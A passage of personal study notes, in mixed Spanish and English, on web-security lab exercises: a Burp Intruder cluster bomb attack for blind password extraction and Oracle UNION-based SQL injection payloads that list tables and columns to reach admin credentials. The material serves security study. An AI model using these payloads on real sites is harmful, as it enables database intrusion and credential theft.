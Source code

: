> Alternative use a **CLUSTER Bomb** attack and setting **two** payload positions, first one for the character position with a payload of numbers **`1..20`** and the second position, using **a-z-0-9** alfanumericos, this will iterate through each permutation of payload combinations. y claro grepeamos por "Welcome back" y tomo el resultado de los primeros 20 resultados que se grepeen por el `Welcome back` EN EL LABORATORIO APARECE COMO `Welcome back!` pero la verdad es que esa mierda en el Grep Match lo grepeamos por el `Welcome back` sin el signo de exclamación, por qué? no tiene sentido cierto? pero así es como pude lograr resolverlo. 

![](Pasted%20image%2020250222212019.png)

### LAB: Listing content database in Oracle DB `admin password` `?category=`

> Identified SQL injection by adding a **single quote** to the end of the `category` parameter value and observing response of `500 Internal Server Error`.

Claro los nombres de la tabla y de las columnas password y username las vamos consiguiendo secuencialmente en cada comando SQL.

> Retrieve the list of tables in the Oracle database:

```sql
?category=Pets'+UNION+SELECT+table_name,NULL+FROM+all_tables--
'+UNION+SELECT+table_name,NULL+FROM+all_tables--
```

> Oracle payload to retrieve the details of the columns in the table.

```sql
?category=Pets'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_XXXX'--

'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_XXX'--
```
